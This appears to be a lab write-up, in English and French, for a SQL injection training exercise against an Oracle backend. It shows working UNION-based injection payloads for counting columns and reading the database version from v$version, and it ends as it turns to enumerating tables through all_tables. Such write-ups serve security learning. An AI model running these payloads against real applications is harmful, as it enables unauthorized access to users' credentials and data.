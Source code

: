           DESCRIPTION
------------------------------------------------------------------------------------------------------

This lab contains an SQL injection vulnerability in the product category filter.
The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords.
You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the administrator user.

------------------------------------------------------------------------------------------------------

Même énoncé que le précédent lab, mais cette fois-ci pour Oracle.

On liste le nombre de colonnes et leurs compatibilités :

'ORDER BY 1--
'ORDER BY 2--
'UNION SELECT 'a','a' FROM dual--

2 colonnes, toutes deux compatibles.

L'énoncé précise le type de database, mais il n'est jamais inutile de vérifier par sécurité, ainsi que pour avoir la version :

'UNION SELECT banner,'a' FROM v$version--

La page retourne : Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production

On peut dorénavant chercher dans la documentation les noms de colonne correspondant à all_tables et all_tab_columns

